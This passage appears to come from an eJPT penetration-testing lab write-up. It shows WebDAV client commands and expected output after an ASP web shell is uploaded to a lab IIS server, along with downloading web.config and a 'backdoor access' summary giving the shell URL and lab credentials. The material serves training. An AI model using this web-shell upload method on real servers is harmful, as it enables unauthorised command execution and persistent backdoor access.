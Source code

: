 **Analysis:** The webshell.asp file (1362 bytes) has been successfully uploaded to the WebDAV directory and is now accessible for web-based execution.

#### Phase 4: Additional File Operations

**Step 7: Download Configuration Files**
```bash
get web.config
```

**Expected Lab Output:**
```
Downloading `/webdav/web.config' to web.config:
Progress: [=============================>] 100.0% of 168 bytes succeeded.
```

**Step 8: Create Backup Directory**
```bash
mkdir backup
cd backup
pwd
```

**Expected Lab Output:**
```
Creating `backup': succeeded.
Current collection is `/webdav/backup/'.
```

#### Phase 5: Session Cleanup and Exit

**Step 9: Return to Main Directory and Exit**
```bash
cd ..
quit
```

**Expected Lab Output:**
```
Connection to `demo.ine.local' closed.
```

**Key Findings from Lab:**
- **Successful Upload:** ASP web shell uploaded without file type restrictions
- **File Accessibility:** Uploaded file appears in directory listing with correct size
- **Configuration Access:** Downloaded web.config file for further analysis
- **Directory Management:** Created backup directory for organized access
- **Execution Ready:** ASP file ready for web-based command execution

**Backdoor Access Information:**
- **Web Shell URL:** http://demo.ine.local/webdav/webshell.asp
- **Authentication Required:** bob:password_123321
- **Platform:** Windows IIS Server with WebDAV enabled
- **Capabilities:** Command execution, file system access, persistent backdoor

---

## 🎯 eJPT Exam Focus
